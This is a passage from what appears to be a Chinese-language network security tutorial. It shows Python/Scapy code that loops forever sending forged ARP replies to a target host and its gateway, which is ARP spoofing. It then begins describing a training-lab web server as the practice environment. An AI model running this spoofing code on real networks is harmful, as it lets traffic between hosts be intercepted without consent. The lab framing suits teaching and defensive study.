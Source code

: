 ```python
    gateway_ip = ''
    gateway_mac = ''

 	# 发送给目标的ARP数据包
    packet_for_target = Ether(src=spoof_mac, dst=target_mac)/ARP(hwsrc=spoof_mac, psrc=gateway_ip, hwdst=target_mac, pdst=target_ip, op=2)
    sendp(packet_for_target)

    # 发送给网关的ARP数据包
    packet_for_gateway = Ether(src=spoof_mac, dst=gateway_mac)/ARP(hwsrc=spoof_mac, psrc=target_ip, hwdst=gateway_mac, pdst=gateway_ip, op=2)
    sendp(packet_for_gateway)

    time.sleep(0.5)


if __name__ == '__main__':
    while True:
        run()
        
```

## 三、实战案例

#### 1、实验环境

​	服务器：10.104.38.100 【4508实训室网站服务器，开放80端口，提供网站服务】

![image-20231116195023699](../img/image-20231116195023699.png)
